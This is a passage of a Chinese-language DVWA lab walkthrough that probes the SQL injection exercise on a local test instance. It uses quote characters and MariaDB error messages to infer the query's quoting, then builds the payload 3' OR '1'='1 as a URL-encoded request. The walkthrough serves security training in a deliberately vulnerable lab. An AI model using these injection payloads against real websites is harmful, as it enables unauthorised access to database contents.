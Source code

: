 代表它可能對 `GET[’id’]` 做了一些簡單的轉換處理 ?

試著加上 single quotes，看看會有什麼反應

```bash
'1'
```

```bash
http://dvwa.localtest:8086/vulnerabilities/sqli/?id=%271%27&Submit=Submit#
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2067.png)

```bash
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1''' at line 1
```

從這邊可以觀察出 SQL 會自動幫我們補上哪些 single quote，為了更方便觀察，使用其他符號看看

```bash
'1@
```

```bash
http://dvwa.localtest:8086/vulnerabilities/sqli/?id=%271@&Submit=Submit#
```

```bash
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1@'' at line 1
```

可以看出 `@` 的位置，代表 id=1 的後面會被補上兩個 `'` 

我們可以在 '1@' 後面的位置繼續補上 OR ‘1’=’1，讓它行成 ‘1’ = ‘1’

```bash
3' OR '1'='1
```

```bash
http://dvwa.localtest:8086/vulnerabilities/sqli/?id=3%27%20OR%20%271%27=%271&Submit=Submit#
```
